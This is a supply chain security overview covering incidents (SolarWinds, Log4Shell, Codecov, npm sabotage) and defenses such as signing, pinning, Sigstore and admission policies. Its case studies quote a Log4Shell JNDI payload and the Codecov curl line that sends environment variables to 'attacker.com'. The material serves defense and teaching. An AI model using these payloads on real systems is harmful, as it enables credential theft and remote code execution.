








> **Production Environment Security Notice**
>
> This document contains executable operational commands. Before executing, ensure: the current target cluster and Namespace are correct; you have sufficient RBAC permissions; you have validated in a non-production environment. Command risk levels are marked as: 🔴 High Risk (may cause data loss or service disruption), 🟡 Medium Risk (modifies cluster state but typically recoverable), 🟢 Low Risk/Read-only (information gathering, no side effects).


# Supply Chain Security Overview

> Software supply chain security is a core pillar of modern cloud-native application security, spanning complete lifecycle protection from code commit to production deployment.

---

<!-- chunk: Table of Contents -->## Table of Contents

1. [Introduction to Supply Chain Security](#1-introduction-to-supply-chain-security)
2. [Major Security Incidents Analysis](#2-major-security-incidents-analysis)
3. [Attack Vectors and Threat Models](#3-attack-vectors-and-threat-models)
4. [Defense in Depth Strategy](#4-defense-in-depth-strategy)
5. [Zero Trust Supply Chain Architecture](#5-zero-trust-supply-chain-architecture)
6. [Industry Frameworks and Standards](#6-industry-frameworks-and-standards)
7. [NIST SSDF Framework Explained](#7-nist-ssdf-framework-explained)
8. [SLSA Framework Overview](#8-slsa-framework-overview)
9. [Cloud-Native Supply Chain Security Ecosystem](#9-cloud-native-supply-chain-security-ecosystem)
10. [Implementation Paths and Best Practices](#10-implementation-paths-and-best-practices)
11. [Compliance and Regulatory Requirements](#11-compliance-and-regulatory-requirements)
12. [Future Trends and Challenges](#12-future-trends-and-challenges)

---

<!-- chunk: 1. Introduction to Supply Chain Security -->## 1. Introduction to Supply Chain Security

## 1.1 What is Software Supply Chain

The software supply chain refers to the collection of all components, tools, processes, and participants involved in the software development to delivery process.

```
Software Supply Chain Components:

┌─────────────────────────────────────────────────────────┐
│              Software Supply Chain Overview              │
├─────────────────────────────────────────────────────────┤
│ Developers → Source Code → Dependencies → Build System → Artifacts
│      ↓           ↓            ↓              ↓           ↓
│ Authentication Code Review Version Locking Security Scan Signature Verification
└─────────────────────────────────────────────────────────┘
```

**Core Components of Supply Chain:**

| Component | Description | Security Focus |
|-----------|-------------|-----------------|
| Source Code | Code written by developers | Code injection, backdoors |
| Third-party Dependencies | Open source libraries and frameworks | Malicious packages, vulnerabilities |
| Build Tools | Compilers, build systems | Toolchain poisoning |
| CI/CD Systems | Automated pipelines | Pipeline hijacking |
| Container Images | Runtime environments | Image tampering |
| Artifact Repositories | Storage and distribution | Repository poisoning |
| Deployment Environment | Runtime infrastructure | Environment poisoning |

## 1.2 Definition and Classification of Supply Chain Attacks

Supply chain attacks refer to attack methods where attackers compromise a specific stage in the software development, build, or distribution process, injecting malicious code or backdoors into the final software products.



## 1.3 Importance of Supply Chain Security

Since 2021, supply chain attacks have become the fastest-growing threat type in the cybersecurity field:

- **Attack Frequency**: 650% year-over-year growth (2020→2021)
- **Impact Scope**: Single attacks can affect thousands of enterprises
- **Financial Loss**: Average loss exceeds $4 million per incident
- **Recovery Time**: Average recovery exceeds 200 days

---

<!-- chunk: 2. Major Security Incidents Analysis -->## 2. Major Security Incidents Analysis

## 2.1 SolarWinds Attack Incident (2020)

## Incident Background

SolarWinds Orion is a widely used IT monitoring platform. Attackers (Nobelium/APT29) successfully compromised its build system between March and June 2020, injecting malicious code into legitimate software updates.

```
SolarWinds Attack Timeline:

2019-10 ──── Attackers first entered SolarWinds network
2020-02 ──── Malicious code test version released (inactive)
2020-03 ──── SUNBURST backdoor injected into Orion 2019.4-2020.2.1
2020-05 ──── Malicious update pushed to 18,000+ customers
2020-12 ──── FireEye discovers and discloses the attack
2021-01 ──── Complete investigation report released
```

## Technical Analysis

```
Attack Chain Decomposition:

[SolarWinds Source Repository]
        │
        ▼ (1) Inject Malicious Code - Modify SolarWinds.Orion.Core.BusinessLayer.dll
[Build System]
        │
        ▼ (2) Legitimate Signing - Use SolarWinds official code signing certificate
[Orion Update Package]
        │
        ▼ (3) Distribution - Push via official update server
[18,000+ Customer Systems]
        │
        ▼ (4) Activation - Activate after 2-week dormancy, check environment and establish C2 communication
[SUNBURST Backdoor Activation]
        │
        ▼ (5) Lateral Movement - Access email, files, internal resources
[Data Exfiltration]
```

## Victim Impact

| Affected Organization | Impact Level |
|----------------------|--------------|
| US Treasury Department | Email system accessed for months |
| US Commerce Department | NTIA network completely compromised |
| FireEye | Red team tools stolen |
| Microsoft | Source code repository accessed |
| 9 Federal Agencies | Varying levels of compromise |
| 100+ Private Enterprises | Infected |

## Lessons and Defense Measures

```yaml
# SolarWinds Incident Defense Checklist
Defense Measures:
  Build Environment:
    - Isolate build systems, prohibit direct network access
    - Implement immutable infrastructure for build environment
    - Complete logging and audit of all build processes
    - Hash verification and archiving of build outputs
    
  Code Integrity:
    - Enforce GPG signing for code commits
    - Multi-person review for critical code changes
    - Static analysis scanning of all commits
    - Reproducible builds between binary artifacts and source code
    
  Supply Chain Monitoring:
    - Monitor third-party component changes
    - Dependency lock files
    - Regular audit of build artifacts
    - Anomaly detection in network traffic
```

## 2.2 Log4Shell Vulnerability Incident (2021)

## Vulnerability Overview

CVE-2021-44228 (Log4Shell) is a remote code execution vulnerability in Apache Log4j 2, with a CVSS score of 10.0 (perfect score), affecting billions of systems worldwide.

```
Log4Shell Vulnerability Exploitation Chain:

Attacker-controlled Input → Log4j Logging Call
                                    │
                                    ▼
                        ${jndi:ldap://attacker.com/exploit}
                                    │
                                    ▼
                         Log4j Parses JNDI lookup
                                    │
                                    ▼
                     Connect to Attacker's LDAP Server
                                    │
                                    ▼
                     Download and Load Malicious Java Class
                                    │
                                    ▼
                     Execute Arbitrary Code on Target System
```

## Impact Scope Analysis



## Lessons from Supply Chain Perspective

```
Supply Chain Issues Exposed by Log4Shell:

1. Insufficient Dependency Transparency
   ─ Most organizations unaware Log4j was in their software
   ─ Lack of tooling for transitive dependency tracking
   ─ Commercial software lacks SBOM (Software Bill of Materials)

2. Slow Vulnerability Response
   ─ Unable to quickly identify affected systems
   ─ Lack of automated patch distribution mechanisms
   ─ Multiple versions make remediation complex

3. Feature Creep Risk
   ─ JNDI lookup is unnecessary high-risk feature
   ─ Dangerous features enabled by default
   ─ Principle of least privilege not enforced
```

**Incident Response Timeline:**

```bash
# 2021-12-09: Vulnerability Disclosed
# Immediate Mitigation
# Log4j 2.10.0-2.14.1
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true

# Or JVM parameter
java -Dlog4j2.formatMsgNoLookups=true -jar app.jar

# WAF Rules (Temporary Blocking)
# Block requests containing ${jndi:

# 2021-12-10: Log4j 2.15.0 Released (Initial fix, incomplete)
# 2021-12-13: Log4j 2.16.0 Released (Disabled JNDI lookup)
# 2021-12-18: Log4j 2.17.0 Released (Fixed CVE-2021-45105)
# 2021-12-28: Log4j 2.17.1 Released (Fixed CVE-2021-44832)

# Final Solution: Upgrade to 2.17.1+
```

## 2.3 Codecov Supply Chain Attack (2021)

## Incident Description

In April 2021, Codecov's (code coverage service) Bash Uploader script was tampered with. Attackers modified the official script's URL, sending environment variables (including API keys, tokens) to an attacker-controlled server.

```
# 🟢 Low Risk: Read-only/Information Gathering, typically no side effects
Codecov Attack Process:

[Attacker Compromises Codecov Docker Image Build Process]
                    │
                    ▼
[Modify bash uploader script's git remote URL]
                    │
                    ▼
# Original code:
git remote -v >> /tmp/codecov.*

# Tampered code:
git remote -v >> /tmp/codecov.*
curl -sm 0.5 -d "<<<<<< ENV $(git remote -v)<<<<<< ENV \
$(env)" http://attacker.com/upload/v2

                    │
                    ▼
[Thousands of enterprises execute tampered script in CI/CD]
                    │
                    ▼
[Environment variables (containing sensitive credentials) stolen]
                    │
                    ▼
[Attacker uses stolen credentials for lateral movement to customer systems]
```
## Impact Assessment

- **Duration**: January 31, 2021 - April 1, 2021 (approximately 2 months)
- **Affected Tools**: All versions of Codecov Bash Uploader
- **Victim Enterprises**: Including Twilio, HashiCorp, Confluent and other well-known companies
- **Leaked Data Types**: AWS keys, GitHub Token, internal API keys, etc.

## Defense Strategy

```bash
# Best Practices for Script Integrity Verification

# 1. Pin to specific versions (avoid using latest)
# Insecure approach:
curl -s https://codecov.io/bash | bash

# Secure approach:
VERSION="2.1.0"
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov
# Verify signature
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov.SHA256SUM
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov.SHA256SUM.sig
gpg --verify codecov.SHA256SUM.sig codecov.SHA256SUM
shasum -a 256 -c codecov.SHA256SUM
chmod +x codecov
./codecov

# 2. Verify third-party script hash in CI/CD
- name: Run Codecov
  run: |
    EXPECTED_SHA="your-known-good-sha256"
    curl -Os https://uploader.codecov.io/latest/linux/codecov
    ACTUAL_SHA=$(sha256sum codecov | awk '{print $1}')
    if [ "$EXPECTED_SHA" != "$ACTUAL_SHA" ]; then
      echo "Hash mismatch! Potential tampering detected!"
      exit 1
    fi
    chmod +x codecov && ./codecov
```

## 2.4 npm Package Pollution Event Case Studies

## event-stream Incident (2018)

```
Incident Progression:
1. event-stream package maintainer (dominictarr) transferred maintenance to stranger
2. New maintainer added malicious dependency flatmap-stream
3. flatmap-stream contained encrypted malicious payload
4. Payload only activated in specific environment (Copay bitcoin wallet)
5. Objective: Steal Copay users' bitcoin private keys

Impact Statistics:
- event-stream weekly downloads: Millions
- Number of packages with direct dependency: 1,600+
- Final end users affected: Millions of bitcoin wallet users
```

## colors.js and faker.js Sabotage Incident (2022)

```javascript
// Developer Marak Squires intentionally sabotaged packages he maintained
// colors.js - 20 million+ downloads per week
// Injected infinite loop code, printing "LIBERTY LIBERTY LIBERTY"

// Affected versions: colors 1.4.44-liberty-2
// Affected versions: faker 6.6.6

// Lessons:
// 1. Open source ecosystem over-relies on single maintainers
// 2. Automatic update strategies carry risk (^1.4.0 vs 1.4.43)
// 3. Need for stricter version pinning strategies
```

---

<!-- chunk: 3. Attack Vectors and Threat Models -->## 3. Attack Vectors and Threat Models

## 3.1 MITRE ATT&CK Supply Chain Attack Matrix



## 3.2 OWASP Top 10 Supply Chain Risks

| Rank | Risk Type | Description | Severity |
|------|-----------|-------------|----------|
| 1 | Code Injection Attack | Malicious code injection in open source components | Critical |
| 2 | Dependency Confusion | Internal package name collision with public packages | High |
| 3 | Outdated Open Source Dependencies | Using versions with known vulnerabilities | High |
| 4 | Unverified Transitive Dependencies | Indirect dependencies introduce vulnerabilities | High |
| 5 | Lack of Integrity Checks | Downloaded packages not hash-verified | Medium |
| 6 | License Compliance Risk | Using components with incompatible licenses | Medium |
| 7 | Unprotected CI/CD Pipeline | Automated systems lack security controls | Critical |
| 8 | Insecure System Configuration | Build environment configuration errors | High |
| 9 | Private Package Leakage | Internal components accidentally published to public repository | High |
| 10 | Missing Software Bill of Materials | Unable to track software components | High |

## 3.3 Supply Chain Threat Modeling

```
STRIDE Threat Model Application to Supply Chain:

┌──────────────────────────────────────────────────────────┐
│  S - Spoofing (Identity Spoofing)                       │
│  Threat: Impersonate legitimate packages/authors/repos  │
│  Example: Package name squatting, Git commit forgery    │
├──────────────────────────────────────────────────────────┤
│  T - Tampering (Unauthorized Modification)             │
│  Threat: Modify legitimate software packages or artifacts│
│  Example: SolarWinds, Codecov incidents                 │
├──────────────────────────────────────────────────────────┤
│  R - Repudiation (Denial of Changes)                    │
│  Threat: Deny source of malicious changes               │
│  Example: No audit logs, no code signatures             │
├──────────────────────────────────────────────────────────┤
│  I - Information Disclosure (Data Leakage)              │
│  Threat: Leak source code, keys, or configuration       │
│  Example: Codecov environment variable leakage          │
├──────────────────────────────────────────────────────────┤
│  D - Denial of Service (Service Disruption)             │
│  Threat: Break dependency package, disable software     │
│  Example: colors.js/faker.js intentional sabotage       │
├──────────────────────────────────────────────────────────┤
│  E - Elevation of Privilege (Unauthorized Access)       │
│  Threat: Gain higher privileges through supply chain    │
│  Example: Exploit CI/CD tokens for lateral movement     │
└──────────────────────────────────────────────────────────┘
```

## 3.4 Dependency Confusion Attack Explained

```python
# Dependency Confusion Attack Principle
# 
# Enterprise internal package name: company-internal-utils (private repository)
# Attacker action: Publish public package company-internal-utils on PyPI/npm
# 
# Exploit package manager's package resolution priority:
# - Under certain configurations, higher version numbers from public repos take priority
# - Developers unknowingly install malicious packages

# Defense: Use private mirrors and scoped packages
# pip.conf
[global]
index-url = https://internal.company.com/simple/
extra-index-url = https://pypi.org/simple/

# More secure configuration (use --no-index)
[global]
index-url = https://internal.company.com/simple/
# Don't configure extra-index-url to prevent confusion

# npm: Use scoped packages
{
  "name": "@company/internal-utils",  // scoped packages harder to confuse
  "publishConfig": {
    "registry": "https://internal.company.com/npm/"
  }
}
```

## 3.5 Malicious CI/CD Attack Vectors

```yaml
# Common attack scenarios in GitHub Actions

# 1. Malicious workflow triggered by Pull Request
# Attacker submits PR containing modified workflow file
# If workflow runs in PR context with write permissions, could:
# - Read repository secrets
# - Modify code or dependencies

# 2. Malicious Actions Reference
# Insecure approach (using mutable tag):
- uses: some-org/some-action@v1  # v1 tag can be changed

# Secure approach (pin to immutable commit SHA):
- uses: some-org/some-action@a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0

# 3. Third-party Action Supply Chain Attack
# Monitor Actions dependency changes
name: Security Check
on: [push]
jobs:
  check-actions:
    runs-on: ubuntu-latest
    steps:
      - name: Check action hashes
        run: |
          # Verify action hashes haven't changed
          grep -r "uses:" .github/workflows/ | \
          grep -v "@[a-f0-9]\{40\}" | \
          grep -v "^#" && \
          echo "WARNING: Non-pinned actions found!" && exit 1 || \
          echo "All actions are pinned to commit SHAs"
```

---

<!-- chunk: 4. Defense in Depth Strategy -->## 4. Defense in Depth Strategy

## 4.1 Defense in Depth Architecture



## 4.2 Code Integrity Protection

```bash
# Git Commit Signing Configuration

# 1. Generate GPG key
gpg --full-generate-key
# Select RSA, 4096 bits, no expiration

# 2. Export public key
gpg --list-secret-keys --keyid-format=long
# Assume Key ID is: 3AA5C34371567BD2
gpg --armor --export 3AA5C34371567BD2

# 3. Configure Git signing
git config --global user.signingkey 3AA5C34371567BD2
git config --global commit.gpgsign true
git config --global tag.gpgsign true

# 4. Verify signatures
git log --show-signature -1
git verify-commit HEAD

# 5. GitHub branch protection rules (configure via API)
curl -X PUT \
  -H "Authorization: token $GITHUB_TOKEN" \
  -H "Accept: application/vnd.github.v3+json" \
  https://api.github.com/repos/org/repo/branches/main/protection \
  -d '{
    "required_status_checks": {"strict": true, "contexts": []},
    "enforce_admins": true,
    "required_pull_request_reviews": {
      "required_approving_review_count": 2,
      "dismiss_stale_reviews": true,
      "require_code_owner_reviews": true
    },
    "restrictions": null,
    "required_linear_history": true,
    "required_conversation_resolution": true
  }'
```

## 4.3 Dependency Security Management

```toml
# Cargo.toml (Rust) - Version Locking Example
[dependencies]
serde = { version = "=1.0.152", features = ["derive"] }  # Exact version lock
tokio = { version = "=1.25.0", features = ["full"] }

# Not recommended (allows arbitrary patch version updates):
# serde = "1"
# serde = "1.0"
```

```json
// package.json (Node.js) - Secure Configuration
{
  "name": "my-app",
  "engines": {
    "node": ">=18.0.0"
  },
  "scripts": {
    "preinstall": "npx npm-audit-report",
    "prepare": "node -e \"if (process.env.NODE_ENV === 'production') process.exit(1)\" || husky install"
  },
  "dependencies": {
    "express": "4.18.2"
  },
  "devDependencies": {
    "audit-ci": "^6.6.1"
  },
  "overrides": {
    "minimatch": "3.1.2"
  }
}
```

```yaml
# Dependency Security Scanning CI Configuration
name: Dependency Security Scan
on:
  push:
    branches: [main]
  pull_request:
  schedule:
    - cron: '0 2 * * 1'  # Every Monday at 2 AM

jobs:
  dependency-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
      
      - name: Run Grype vulnerability scan
        uses: anchore/scan-action@3343887d815d7b07465f6fdcd395bd66508d486a  # v3.6.4
        with:
          path: "."
          fail-build: true
          severity-cutoff: high
          
      - name: Dependency Review
        uses: actions/dependency-review-action@9129d7d40b8c12c1ed0f60400d00c92d437adfd0  # v4.1.3
        with:
          fail-on-severity: moderate
          allow-licenses: MIT, Apache-2.0, BSD-2-Clause, BSD-3-Clause
```

## 4.4 Build Environment Security

```dockerfile
# Secure Multi-Stage Build Configuration

# Build Stage - Use fixed, verified base image
FROM golang:1.21.6-alpine3.19@sha256:2523a6f68a0f515fe251aad40b18545155101053da6ae8a1db05b51c7f37e42 AS builder

# Run builds as non-root user
RUN adduser -D -g '' appuser

# Install dependencies before verifying integrity
WORKDIR /build
COPY go.sum go.mod ./

# Use -mod=readonly to prevent modifying go.sum
RUN go mod download -x && go mod verify

COPY . .

# Build parameters inject version info
ARG BUILD_DATE
ARG GIT_COMMIT
ARG VERSION

RUN CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build \
    -ldflags="-w -s \
    -X main.version=${VERSION} \
    -X main.buildDate=${BUILD_DATE} \
    -X main.gitCommit=${GIT_COMMIT}" \
    -o /build/app ./cmd/app

# Runtime Stage - Minimize image
FROM scratch

COPY --from=builder /etc/ssl/certs/ca-certificates.crt /etc/ssl/certs/
COPY --from=builder /etc/passwd /etc/passwd
COPY --from=builder /build/app /app

USER appuser
EXPOSE 8080
ENTRYPOINT ["/app"]
```

```bash
# Build Provenance Generation Script
#!/bin/bash
# generate-provenance.sh

set -euo pipefail

OUTPUT_FILE="${1:-provenance.json}"

cat > "$OUTPUT_FILE" << EOF
{
  "buildType": "https://github.com/slsa-framework/slsa/blob/main/docs/provenance/v1",
  "builder": {
    "id": "https://github.com/actions/runner@$(gh version | head -1)",
    "version": {
      "github-hosted-runner": "${RUNNER_OS}-${RUNNER_ARCH}"
    }
  },
  "metadata": {
    "buildInvocationID": "${GITHUB_RUN_ID}/${GITHUB_RUN_ATTEMPT}",
    "buildStartedOn": "$(date -u +%Y-%m-%dT%H:%M:%SZ)",
    "completeness": {
      "parameters": true,
      "environment": false,
      "materials": true
    },
    "reproducible": false
  },
  "materials": [
    {
      "uri": "git+${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}",
      "digest": {
        "sha1": "${GITHUB_SHA}"
      }
    }
  ]
}
EOF

echo "Provenance generated: $OUTPUT_FILE"
```

---

<!-- chunk: 5. Zero Trust Supply Chain Architecture -->## 5. Zero Trust Supply Chain Architecture

## 5.1 Application of Zero Trust Principles to Supply Chain

```
Traditional Security Model vs Zero Trust Supply Chain:

Traditional Model:
┌─────────────────────────────────┐
│  Internal Network (Trusted)      │
│  ┌─────┐  ┌─────┐  ┌─────┐    │
│  │ Dev │  │Build│  │Deploy│    │
│  └─────┘  └─────┘  └─────┘    │
│    Implicit trust on all internal operations
└─────────────────────────────────┘

Zero Trust Model:
┌─────────────────────────────────┐
│  Never Trust, Always Verify      │
│  ┌─────┐  ┌─────┐  ┌─────┐    │
│  │ Dev │→ │Build│→ │Deploy│    │
│  └──┬──┘  └──┬──┘  └──┬──┘    │
│     ↓        ↓         ↓        │
│  Authentication Provenance Policy Verification
│  Access Control Integrity Verification Audit Logs
└─────────────────────────────────┘
```

## 5.2 Zero Trust Supply Chain Technology Stack



## 5.3 Sigstore Ecosystem

Sigstore is an open-source supply chain security project supported by the Linux Foundation, providing keyless signing infrastructure.

```bash
# Sigstore Cosign Usage Example

# Install Cosign
brew install cosign
# Or
go install github.com/sigstore/cosign/v2/cmd/cosign@latest

# 1. Keyless Signing (using OIDC)
cosign sign \
  --identity-token=$(cat /tmp/oidc-token) \
  ghcr.io/myorg/myapp:v1.0.0

# 2. Sign with Key Pair
# Generate key pair
cosign generate-key-pair

# Sign image
cosign sign \
  --key cosign.key \
  ghcr.io/myorg/myapp:v1.0.0

# 3. Verify Signature
cosign verify \
  --certificate-identity="https://github.com/myorg/myapp/.github/workflows/release.yml@refs/heads/main" \
  --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
  ghcr.io/myorg/myapp:v1.0.0

# Use key to verify
cosign verify \
  --key cosign.pub \
  ghcr.io/myorg/myapp:v1.0.0

# 4. Sign SBOM and attach to image
syft ghcr.io/myorg/myapp:v1.0.0 -o spdx-json > sbom.json
cosign attach sbom \
  --sbom sbom.json \
  ghcr.io/myorg/myapp:v1.0.0

# 5. Sign Provenance
cosign attest \
  --predicate provenance.json \
  --type slsaprovenance \
  ghcr.io/myorg/myapp:v1.0.0
```

## 5.4 OPA/Gatekeeper Supply Chain Policy

```rego
# supply-chain-policy.rego
# Use OPA to enforce supply chain security policies

package kubernetes.admission

import data.lib.images

# Reject unsigned container images
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  not images.is_signed(container.image)
  msg := sprintf("Image %v is not signed by trusted authority", [container.image])
}

# Reject images using 'latest' tag
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  endswith(container.image, ":latest")
  msg := sprintf("Image %v uses 'latest' tag which is not allowed", [container.image])
}

# Reject images not from trusted repositories
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  trusted_registries := {"gcr.io/myorg/", "ghcr.io/myorg/", "internal.registry.com/"}
  not any({startswith(container.image, r) | r := trusted_registries[_]})
  msg := sprintf("Image %v is not from a trusted registry", [container.image])
}

# Require SLSA L2+ Provenance
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  not images.has_slsa_provenance(container.image)
  msg := sprintf("Image %v does not have SLSA provenance", [container.image])
}
```

```yaml
# Kyverno Policy: Verify Container Image Signature
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signature
  annotations:
    policies.kyverno.io/title: Verify Image Signature
    policies.kyverno.io/category: Supply Chain Security
    policies.kyverno.io/severity: high
spec:
  validationFailureAction: enforce
  background: false
  rules:
    - name: verify-cosign-signature
      match:
        any:
          - resources:
              kinds: [Pod]
              namespaces: ["production", "staging"]
      verifyImages:
        - imageReferences:
            - "ghcr.io/myorg/*"
          attestors:
            - count: 1
              entries:
                - keyless:
                    subject: "https://github.com/myorg/*/.github/workflows/*.yml@refs/heads/main"
                    issuer: "https://token.actions.githubusercontent.com"
                    rekor:
                      url: https://rekor.sigstore.dev
```

---

<!-- chunk: 6. Industry Frameworks and Standards -->## 6. Industry Frameworks and Standards

## 6.1 Major Frameworks Overview

```
Supply Chain Security Framework Ecosystem:

┌──────────────────────────────────────────────────────────┐
│  Government/Regulatory Bodies                            │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
│  │  NIST SSDF   │  │   EO 14028   │  │  NSA/CISA    │  │
│  │  (SP 800-218)│  │  (Biden EO)  │  │  Guidance    │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
├──────────────────────────────────────────────────────────┤
│  Industry Standards                                      │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
│  │     SLSA     │  │   OpenSSF    │  │   CIS SSCS   │  │
│  │   (Google)   │  │   Scorecard  │  │              │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
├──────────────────────────────────────────────────────────┤
│  Technical Specifications                                │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
│  │     SBOM     │  │    in-toto   │  │   TUF        │  │
│  │  SPDX/CycloneDX│ │  (MIT)      │  │  Framework   │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
└──────────────────────────────────────────────────────────┘
```

## 6.2 Executive Order 14028 (EO 14028)

In May 2021, US President Biden signed the "Improving National Cybersecurity" Executive Order, which explicitly required supply chain security measures:

| Requirement | Deadline | Specific Measures |
|-----------|---------|------------------|
| Mandatory SBOM | November 2021 | Software vendors selling to federal government must provide SBOM |
